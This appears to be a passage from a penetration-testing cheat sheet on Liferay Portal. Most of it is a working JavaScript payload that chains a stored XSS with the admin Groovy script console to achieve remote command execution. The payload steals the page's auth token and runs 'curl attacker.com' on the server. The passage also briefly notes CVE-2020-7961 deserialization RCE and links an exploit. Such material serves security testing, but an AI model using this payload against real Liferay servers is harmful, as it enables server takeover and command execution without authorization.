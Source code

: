 It allows running some OS commands.

This can be chained with an XSS vulnerability to achieve RCE when an admin triggers the XSS:

```javascript
fetch("/group/control_panel/manage?p_p_id=com_liferay_server_admin_web_portlet_ServerAdminPortlet&p_p_lifecycle=0&p_p_state=maximized&p_p_mode=view&_com_liferay_server_admin_web_portlet_ServerAdminPortlet_mvcRenderCommandName=%2Fserver_admin%2Fview&_com_liferay_server_admin_web_portlet_ServerAdminPortlet_tabs1=script")
.then(r => r.text())
.then(t => {
	let p = new DOMParser();
	let h = p.parseFromString(t, 'text/html');
	
	let formData = new FormData();
	d = {
		"_com_liferay_server_admin_web_portlet_ServerAdminPortlet_formDate": h.getElementById("_com_liferay_server_admin_web_portlet_ServerAdminPortlet_formDate").value,
		"_com_liferay_server_admin_web_portlet_ServerAdminPortlet_tabs1": "script",
		"_com_liferay_server_admin_web_portlet_ServerAdminPortlet_redirect": window.location,
		"_com_liferay_server_admin_web_portlet_ServerAdminPortlet_language": "groovy",
		"_com_liferay_server_admin_web_portlet_ServerAdminPortlet_output": "text",
		"_com_liferay_server_admin_web_portlet_ServerAdminPortlet_script": "def sout = new StringBuilder(), serr = new StringBuilder();def proc = 'curl attacker.com'.execute()",
		"_com_liferay_server_admin_web_portlet_ServerAdminPortlet_cmd": "runScript",
		"p_auth": Liferay.authToken
	}
	
	for(const n in d) {
		formData.append(n, d[n]);
	}
	
	fetch("/group/control_panel/manage?p_p_id=com_liferay_server_admin_web_portlet_ServerAdminPortlet&p_p_lifecycle=1&p_p_state=maximized&p_p_mode=view&_com_liferay_server_admin_web_portlet_ServerAdminPortlet_javax.portlet.action=%2Fserver_admin%2Fedit_server", {
		method: "POST",
		body: formData
	})
})
```

## \[CVE-2020-7961\] RCE via deserialization

Deserialization of Untrusted Data in Liferay Portal prior to 7.2.1 CE GA2 allows remote attackers to execute arbitrary code via JSON web services (JSONWS).

[Exploit available](https://github.com/ShutdownRepo/CVE-2020-7961).